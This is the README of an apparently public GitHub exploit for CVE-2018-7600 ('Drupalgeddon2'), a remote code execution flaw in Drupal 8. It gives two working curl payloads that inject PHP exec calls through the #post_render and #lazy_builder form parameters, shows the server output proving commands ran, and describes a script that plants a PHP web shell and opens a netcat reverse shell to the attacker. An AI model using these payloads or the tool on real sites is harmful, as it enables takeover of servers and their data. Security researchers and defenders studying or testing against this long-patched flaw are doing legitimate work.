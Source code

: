 # CVE-2018-7600 | Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

### Inspired from https://github.com/dreadlocked/Drupalgeddon2
- - -

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- [Pending] [Yet to be Coded] Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- Uploads a **PHP shell** to the web root (`./`), and starts a netcat listener and it'll trigger the payload in a different thread and it'll return the rev shell to the user.
- Support **Linux** targets
- **Auto detects Drupal 7 or Drupal 8**


### PoC #1 - #post_render / account/mail / exec
- It uses the `user/register` URL, `#post_render` parameter, targeting `account/mail`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

The server will give 200 response & display JSON.
It **IS** able to render the output in the response _(such as doing uname -a)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
  --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
HTTP/1.1 200 OK
Date: Wed, 18 Apr 2018 15:56:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 280
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU\/Linux\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
[g0tmi1k@attacker]$
```

- - -

### PoC #2 - #lazy_builder / timezone/timezone / exec
- It uses the `user/register` URL, `#lazy_builder` parameter, targeting `timezone/timezone`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

The server will give 500 response & display "The website encountered an unexpected error. Please try again later".
It is **NOT** able to render the output in the response _(Blind!)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
HTTP/1.0 500 500 Service unavailable (with message)
Date: Wed, 18 Apr 2018 15:58:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: no-cache, private
Content-Length: 74
Connection: close
Content-Type: text/html

The website encountered an unexpected error. Please try again later.<br />
[g0tmi1k@attacker]$


root@ubuntu140045x64-drupal:~# stat /tmp/2
  File: '/tmp/2'
  Size: 0         	Blocks: 0          IO Block: 4096   regular empty file
Device: fd01h/64769d	Inode: 59488       Links: 1
Access: (0644/-rw-r--r--)  Uid: (   33/www-data)   Gid: (   33/www-data)
Access: 2018-04-18 15:58:05.061898957 +0000
Modify: 2018-04-18 15:58:05.061898957 +0000
Change: 2018-04-18 15:58:05.061898957 +0000
 Birth: -
root@ubuntu140045x64-drupal:~#
```

- - -

### Script Usage:
#### Tested on Drupal 8, Drupal 7 part of the exploit is yet to be coded
`python3 drupalgeddon2.py -t http://xxx.xxx.xxx.xxx -l xxx.xxx.xxx.xxx -p xxxx`

![](https://github.com/ruthvikvegunta/Drupalgeddon2/blob/master/images/drupalgeddon2.png)
